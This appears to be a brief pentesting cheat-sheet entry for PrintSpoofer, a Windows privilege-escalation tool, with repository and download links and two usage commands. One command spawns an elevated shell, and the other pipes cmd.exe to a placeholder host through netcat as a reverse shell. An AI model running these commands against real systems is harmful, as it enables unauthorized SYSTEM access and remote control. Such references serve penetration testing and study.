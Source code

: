 # PrintSpoofer

### Github: [https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)

### x64 | [PrintSpoofer64.exe](https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe)&#x20;

### x86 | [PrintSpoofer32.exe](broken-reference)

```
> PrintSpoofer.exe -i -c cmd.exe

> PrintSpoofer.exe -c "nc.exe IP PORT -e cmd.exe"
```

## Additional Information

* [https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)
